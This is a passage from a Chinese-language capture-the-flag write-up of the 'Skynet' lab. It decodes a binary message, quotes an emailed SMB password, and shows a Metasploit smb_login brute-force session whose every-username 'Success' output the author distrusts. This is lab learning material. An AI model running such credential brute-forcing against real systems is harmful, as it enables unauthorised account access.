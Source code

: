 ```
01100010 01100001 01101100 01101100 01110011 00100000 01101000 01100001 01110110
01100101 00100000 01111010 01100101 01110010 01101111 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111
```

关于第二封邮件的正文，我认为它可能包含一条有趣的二进制编码信息。我使用了二进制到 ASCII 的转换器( [RapidTables，n.d.](https://www.rapidtables.com/convert/number/binary-to-ascii.html) )，得到了以下 ASCII 消息:

```
balls have zero to me to me to me to me to me to me to me to me to
```

来自`serenakogan@skynet`的邮件似乎不包含任何有用的信息。第三封电子邮件发自`skynet@skynet`，主题为“重置密码”，内容如下:

```
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

现在我有了用户名和密码组合的第二部分，这有可能让我进入 Dyson 拥有的一个 SMB 帐户。

我现在将尝试使用 Miles Dyson 的名字和提供的密码登录 Samba。我运行 [Metasploit (n.d.)](https://www.metasploit.com/) ，并使用其`smb_login`模块( [InfoSec Matter，n.d.](https://www.infosecmatter.com/metasploit-module-library/?mm=auxiliary/scanner/smb/smb_login) )计算出戴森的 SMB 帐户的用户名:

```
**┌──(dna㉿deniers)-[~]
└─$ sudo msfconsole**
[sudo] password for dna: [... snip ...]**msf6 > use auxiliary/scanner/smb/smb_login**
**msf6 auxiliary(scanner/smb/smb_login) > set RHOSTS skynet.thm**
RHOSTS => skynet.thm
**msf6 auxiliary(scanner/smb/smb_login) > set RPORT 445**
RPORT => 445
**msf6 auxiliary(scanner/smb/smb_login) > set USER_FILE ~/skynet/username_file**
USER_FILE => ~/skynet/username_list
**msf6 auxiliary(scanner/smb/smb_login) > set SMBPASS )s{A&2Z=F^n_E.B`**
SMBPASS => )s{A&2Z=F^n_E.B`
**msf6 auxiliary(scanner/smb/smb_login) > run**[*] skynet.thm:445 [...] Starting SMB login bruteforce
[+] skynet.thm:445 [...] **Success**: '.\miles:)s{A&2Z=F^n_E.B`'
[!] skynet.thm:445 [...] No active DB -- Credential data will not be saved!
[+] skynet.thm:445 [...] **Success**: '.\dyson:)s{A&2Z=F^n_E.B`'
[+] skynet.thm:445 [...] **Success**: '.\m.dyson:)s{A&2Z=F^n_E.B`'[... snip ...][+] skynet.thm:445 [...] **Success**: '.\milesd:)s{A&2Z=F^n_E.B`'
[+] skynet.thm:445 [...] **Success**: '.\milesdyson:)s{A&2Z=F^n_E.B`'
[*] skynet.thm:445   ... Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

现在`smb_login`模块报告了每个用户名和密码组合的“成功”;这告诉我，它似乎不能正常工作。这可能是因为我的错误，但是我决定用相当短的`username_file`和发现的密码手动测试登录组合。
